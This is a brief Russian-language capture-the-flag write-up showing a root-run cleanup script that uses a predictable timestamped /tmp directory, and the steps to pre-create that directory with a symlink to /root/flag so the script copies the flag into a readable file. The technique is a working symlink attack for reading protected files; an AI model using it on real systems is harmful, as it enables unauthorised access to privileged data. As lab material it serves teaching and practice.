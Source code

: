 находим скрипте /opt/syslog.sh
```
#!/bin/bash
TMPDIR=$(date "+/tmp/tmpdir-%Y-%m-%d-%H%M%S")
mkdir "$TMPDIR"
date > "$TMPDIR/date.txt"
w > "$TMPDIR/users.txt"
cat $TMPDIR/*.txt > /opt/syslog.txt
rm -rf "$TMPDIR"
```
создаем каталог mkdir -p tmpdir-2025-06-20-084201 (время в каталоге должен быть на несколько минут позже текущего) и в нем создаем символическую ссылку ln -s /root/flag flag.txt
проверяем файл /opt/syslog.txt и забираем флаг